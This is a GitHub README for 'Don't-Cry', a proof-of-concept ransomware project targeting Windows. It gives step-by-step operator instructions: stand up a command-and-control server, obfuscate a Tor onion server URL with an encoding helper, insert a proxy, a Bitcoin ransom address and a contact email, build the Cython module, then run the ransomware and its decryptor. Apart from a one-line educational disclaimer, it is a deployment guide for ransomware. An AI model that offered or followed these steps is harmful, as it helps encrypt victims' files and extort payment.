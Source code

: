 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

```powershell
pip3 install -r requirements-server.txt
```

2. Run the server:

```bash
gunicorn -b 0.0.0.0:8080 src.server:app
```

> Or for debugging:

```bash
python3 src/server.py
```

### Client (Windows)

1. Install the required packages:

```powershell
pip install -r requirements-client.txt
```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)

  * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
    ```python
    YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
    ```
    (Use the `ex42` function from the `edx42` module to encode your URL first.)
    
    Example:
    ```python
    encoded_url = ex42(b"https://your-tor-server.onion")
    YOUR_URL = dx42(encoded_url).decode()
    ```

   * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS` similarly.
   * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

```powershell
python src/setup.py build_ext --inplace
Move-Item -Path file_crypto.*.pyd -Destination src -Force
```

4. Run the server (WSGI):

```bash
gunicorn -b 0.0.0.0:8080 src.server:app
```

5. Run the ransomware:

```powershell
python src/dcry.py
```

6. Run the decryptor:

```powershell
python src/decryptor.py
```

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

* See details in [FAQ.md](docs/FAQ.md)

## Contributing

* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

* See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

* See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

* This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

